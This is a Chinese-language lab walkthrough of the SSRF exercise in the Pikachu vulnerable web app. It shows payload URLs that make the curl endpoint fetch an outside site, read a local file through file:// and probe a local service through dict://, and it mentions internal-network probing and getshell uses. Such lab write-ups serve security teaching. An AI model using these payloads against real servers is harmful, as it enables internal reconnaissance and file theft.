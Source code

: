 扩展阅读: [PHP中使用CURL实现GET和POST请求](https://www.cnblogs.com/CHEUNGKAMING/p/5717429.html)

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样,尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`

![](../../../../assets/img/安全/实验/Misc/pikachu/72.png)

SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`

![](../../../../assets/img/安全/实验/Misc/pikachu/73.png)
